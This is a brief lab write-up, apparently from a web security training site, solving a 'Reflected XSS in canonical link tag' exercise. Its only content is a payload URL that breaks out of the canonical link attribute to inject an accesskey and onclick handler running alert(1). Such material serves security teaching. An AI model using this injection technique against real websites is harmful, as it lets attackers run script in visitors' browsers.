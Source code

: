 # Lab: Reflected XSS in canonical link tag

Canonical link tag: https://0a64006e04f172d1823d8daf001d0021.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
